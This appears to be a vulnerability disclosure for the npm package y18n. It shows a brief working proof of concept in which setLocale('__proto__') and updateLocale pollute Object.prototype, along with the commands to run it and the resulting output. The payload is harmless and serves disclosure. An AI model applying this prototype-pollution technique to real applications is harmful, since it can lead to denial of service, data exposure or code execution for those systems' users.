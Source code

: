 # Description

`y18n` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
const y18n = require('y18n')();
var obj = {}
console.log("Before : " + obj.polluted);
y18n.setLocale('__proto__');
y18n.updateLocale({polluted: 'Yes! Its Polluted'});
console.log("After : " + obj.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i y18n # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
